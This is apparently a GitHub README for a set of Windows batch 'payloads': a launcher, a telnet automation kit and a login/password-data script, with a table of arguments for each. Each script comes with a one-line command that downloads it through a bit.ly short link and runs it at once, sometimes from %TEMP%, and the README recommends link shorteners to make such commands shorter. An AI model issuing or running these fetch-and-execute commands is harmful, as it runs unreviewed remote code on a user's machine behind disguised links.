 # Payloads
A collection of my custom safe (...for now hehe) payloads for Windows.<br>
Some payloads are for personal or educational use only and might not deliver the results you wanted.



## Batchfiles
Here are the individual batchfiles and instructions on how to use them.
> **Warning** <br>
> It is required to write the script into a file with different name **aside from r.bat** since r.bat is the default name that PLs.bat uses to name a payload it downloaded. If you want to use r.bat as the name of your manually downloaded payload, you may fork the repository and change the configuration variables inside PLs.bat.<br>
> For scripts that include `cd %temp% &` in the command, you may change **%temp%** to a different folder of your choice. Be sure to select a directory and make sure that the directory is accessible to avoid errors when running the script.



### PLs.bat
[**PLs**](https://github.com/Jed556/Payloads/blob/main/PLs.bat) is the boss. This is the main launcher and download manager for all payloads.<br>

#### Download and Run PLs.bat
You may add additional arguments to the end of the command. Please refer to the **Arguments** section for more information.
```Batch
cmd /c curl -Lo pls.bat bit.ly/PLs-bat & pls
```

#### Arguments
Without arguments, or with missing arguments, the script will prompt you for the payload to run and the arguments to pass to it. The following table provides examples of how to run the script with different arguments.
|Index|Example|Description|
|:---:|:-----:|:--------- |
|1|**pls 1**|Specifies the **index** of the payload to run (default: none).|
|2|**pls 2 1**|Enables (**1**) or disables (**0**) debug mode (default: 0). This option will be passed to the specified payload.|
|*|**pls 3 0 2**|Arguments starting from index 3 are passed to the specified payload. Check the argument list for the specific payload you want to run, and add 1 to the indexes to understand the indexing better.|



### TelKit
[**Telkit**](https://github.com/Jed556/Payloads/blob/main/Telkit/telkit.bat) is a custom payload for telnet run automations. <br>

#### Download and Run TelKit
You may add additional arguments to the end of the command. Please refer to the **Arguments** section for more information.
```Batch
cmd /c cd %temp% & curl -Lo tk.bat bit.ly/PLs-tk & tk
```

#### Arguments
When arguments are missing or not provided, the script will prompt you for the telnet service to connect to. Refer to the table below for sample commands that demonstrate how to run the script with different arguments.
|Index|Example|Description|
|:---:|:-----:|:--------- |
|1|**tk 0**|Enable (**1**) or disable (**0**) debug mode (default:0)|
|2|**tk 1 1**|Specifies the index of the telnet service to connect to (default: none).|



### LogKey
[**LogKey**](https://github.com/Jed556/Payloads/blob/main/Logkey/logkey.bat) is a custom payload for id login. <br>

**Download and Run LogKey**
You may add additional arguments to the end of the command. Please refer to the **Arguments** section for more information.
```Batch
cmd /c curl -Lo lk.bat bit.ly/PLs-lk & lk
```

#### Arguments
If some arguments are not supplied, the script will utilize the default values specified in the script configuration variables. The table below provides examples of how to run the script with different arguments.
|Index|Example|Description|
|:---:|:-----:|:--------- |
|1|**lk 1**|Enable (**1**) or disable (**0**) debug mode (default:0).|
|2|**lk 0 8**|Specifies the length of the id (default: 8).|
|3|**lk 0 8 data/database.txt**|Specifies the URL or PATH to get the data from (default: [This Repository](https://raw.githubusercontent.com/Jed556/Payloads/main/LogKey/data.logkey)).|
|4|**lk 0 8 data/database.txt passwords.txt**|Specifies the name of the data file (default: file name with extension from URL).|
|5|**lk 0 8 data/database.txt passwords.txt 1**|Enable (**1**) or disable (**0**) data preservation (default:0). This prevents from the data copied (**passwords.txt**) from being deleted after use|



> **Note** <br>
> You may add `cd %temp% &` between `cmd /c` and `curl` for the files without a specific **cd** command to download and run inside Windows **%TEMP%** (temporary) folder.<br>
> You may change the file name *(ex. ***pls.bat***)* to a different name of your choice. Be sure to change the name of the file in the command *(& ***pls***)* as well.<br>
> You can adjust the individual configuration variables inside each script to your liking. Be sure to enter the correct values for the variables to avoid errors when running the script.



## Shortcuts
You may use link shorteners to shorten the commands. Here are some great link shorteners that you may use:<br>
- **Bitly**: [bitly.com](https://bitly.com/)<br>
- **Tinyurl**: [tinyurl.com](https://tinyurl.com/)<br>
- **Rebrandly**: [rebrand.ly](https://rebrand.ly/)<br>
- **Is.gd**: [is.gd](https://is.gd/)<br>
> I recommend using [**Bitly**](https://bitly.com/) or [**Tinyurl**](https://tinyurl.com/) since they are the only ones that I have tested so far. <br>